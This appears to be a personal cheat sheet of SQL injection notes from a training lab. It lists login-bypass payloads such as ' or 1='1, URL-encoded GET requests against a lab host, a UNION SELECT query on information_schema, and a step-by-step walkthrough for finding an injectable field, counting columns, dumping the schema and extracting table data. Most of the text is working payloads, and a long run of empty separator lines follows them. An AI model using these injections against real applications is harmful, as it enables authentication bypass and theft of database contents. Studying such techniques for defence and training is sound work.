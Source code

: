     https://sqlbolt.com
_________________________________________________________________________________________________________________
## Post method: In the username and password fields use single quote to create or statement to validate true. 
    ' or 1='1
_________________________________________________________________________________________________________________
## Get method: In the Inspector (right click) open the network tab use post method and run it, select the post method below and in the new pane select request tab and switch to raw. Copy that and paste to the URL and add a ? at the beginning.
    http://10.50.33.78/login.php?username='+or+1%3D'1&passwd='+or+1%3D'1
    http://10.50.33.78/login.php?username=%27+or+1%3D%271&passwd=%27+or+1%3D%271
_________________________________________________________________________________________________________________
## Golden Statement: 
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns

-----------------------------------[column],[column],[column]----------------------[database],[table]------------
    
    mysql
    show databases ;
    use information_schema ;
    show tables from information_schema ;
    show columns from columns ;
    
    SELECT table_schema FROM information_schema.columns ;
    SELECT table_name FROM information_schema.columns ;
    SELECT column_name FROM information_schema.columns ;
    
    SELECT table_schema,table_name,column_name FROM information_schema.columns ;
    
    ##Examples:
    SELECT x,x,x FROM session.xxx
    SELECT name,cost,year FROM session.car ;
    SELECT id,name,pass FROM session.user ;    
_________________________________________________________________________________________________________________
## SQL Injection: 
### 1-Identify Vulnerable Field.
#### The one that doesn't error out.
    Ford ' or 1='1
    Dodge ' or 1='1
    Honda ' or 1='1
    Audi ' or 1='1

### 2-Identify number of columns.
#### So you can find which fields need placeholders.
    Audi ' UNION SELECT 1,2,3,4 #
    Audi ' UNION SELECT 1,2,3,4,5 #
    
### 3-Modify Goldent Statement to include all information.
#### UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
    Audi ' UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns #

### 4-Craft the queries.
#### Pulling custom user created data from the database.
    Audi ' UNION SELECT tireid,2,name,size,cost FROM session.Tires #
_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________
